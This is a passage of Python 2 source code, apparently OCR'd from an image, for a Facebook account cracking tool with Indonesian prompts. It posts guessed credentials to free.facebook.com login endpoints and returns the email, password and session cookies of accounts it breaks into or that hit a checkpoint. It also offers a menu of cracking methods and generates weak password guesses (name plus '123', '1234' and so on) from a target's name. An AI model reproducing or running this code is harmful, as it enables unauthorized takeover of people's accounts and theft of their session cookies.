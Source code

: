 			else:
				data.update({i.get("name"):""})
		else:
			data.update({i.get("name"):i.get("value")})
	data.update(
		{"fb_dtsg":meta,"m_sess":"","__user":"0",
		"__req":"d","__csr":"","__a":"","__dyn":"","encpass":""
		}
	)
	r.headers.update({"referer":"https://free.facebook.com/login/?next&ref=dbl&fl&refid=8"})
	po=r.post("https://free.facebook.com/login/device-based/login/async/?refsrc=https%3A%2F%2Fm.facebook.com%2Flogin%2F%3Fref%3Ddbl&lwv=100",data=data).text
	if "c_user" in list(r.cookies.get_dict().keys()):
		return {"status":"success","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	elif "checkpoint" in list(r.cookies.get_dict().keys()):
		return {"status":"cp","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	else:return {"status":"error","email":em,"pass":pas}
def metode():
    print('[1] Metode mbasic.facebook.com')
    print('[2] Metode mobile.facebook.com')
    print('[3] Metode free.facebook.com')
    md = raw_input('[?] Input : ')
    if md == '':
	exit()
    elif md == '1' or md == '01':
	crack()
    elif md == '2' or md == '02':
	crack1()
    elif md == '3' or md == '03':
	crack2()
    else:
        exit('[x] Isi Dengan Benar')
def generate(text):
	results=[]
	global ips
	for i in text.split(" "):
		if len(i)<3:
			continue
		else:
			i=i.lower()
			if len(i)==3 or len(i)==4 or len(i)==5:
				results.append(i+"123")
				results.append(i+"1234")
			else:
				results.append(i+"123")
				results.append(i+"1234")
				results.append(i+"12345")
				results.append(i+"123456")
				results.append(i)
	return results
class crack:
	def __init__(self):
		self.ada=[]
		self.cp=[]
		self.ko=0
		while True:
			print('──────────────────────────────────────────')
			f=raw_input("[?] Gunakan Pass Manual (y/t) : ")
			if f=="":continue
			elif f=="y":
				try:
					while True:
						try:
							self.apk= 'rozhak.json'